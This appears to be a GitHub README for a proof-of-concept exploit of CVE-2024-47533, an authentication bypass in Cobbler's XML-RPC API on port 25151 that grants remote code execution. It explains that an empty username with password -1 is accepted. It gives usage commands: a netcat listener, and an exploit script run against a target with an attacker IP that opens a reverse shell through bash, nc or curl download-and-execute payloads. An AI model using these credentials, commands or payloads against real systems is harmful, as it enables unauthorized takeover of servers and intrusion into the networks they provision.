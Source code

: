 # CVE-2024-47533 - Cobbler XMLRPC Authentication Bypass RCE Exploit

## Critical Remote Code Execution via Authentication Bypass in Cobbler  
### PoC implementation.

---

## Resume

Cobbler, a Linux installation server that enables rapid setup of network installation environments, has an authentication vulnerability in versions 3.0.0 up to (but not including) 3.2.3 and 3.3.7. The function utils.get_shared_secret() always returns -1, allowing anyone to connect to the Cobbler XML-RPC interface with an empty username ('') and password -1. This lets an attacker with network access gain full control of the Cobbler server. The vulnerability is fixed in versions 3.2.3 and 3.3.7.

---

## 🛠 Technical Breakdown

The vulnerability is caused by improper handling of the shared secret in the `utils.get_shared_secret()` function, which always returns `-1`, effectively bypassing authentication. This lets any network user connect to Cobbler’s XMLRPC interface with empty credentials and execute arbitrary commands.

---

## 🔥 Vulnerable Endpoint

`http://<target>:25151/` — Cobbler's XMLRPC API endpoint

---

## 💥 Example Payloads

The exploit script supports various reverse shell payloads including:

- Bash reverse shell
- Netcat shells (`nc`)
- Curl download & execute

---

## Proof-of-Concept (PoC) 

### Preparing the Listener

Start a Netcat listener on your machine:

```bash
nc -lvnp 4444
```

### 🚀 Launching the Exploit

Run the exploit script CVE-2024-47533.py.

```bash
python3 CVE-2024-47533-dbs.py -t http://127.0.0.1:25151 -l 10.10.15.16 -p 4444 --payload bash
```

### Parameters 

`-t : Target (Example: -t http://1<IP_SERVICE>:<PORT>)`

`-l: Local IP (Example: -l 10.10.11.80)`

`-p : Port <LOCAL_PORT> (Example: -p 4444)`

`--payload: Payload(bash, curl, nc) (Example: --payload bash)`

### 💻 Successful Remote Shell Access

Upon successful execution, the reverse shell will connect back to the listener, granting the attacker remote access to the server.

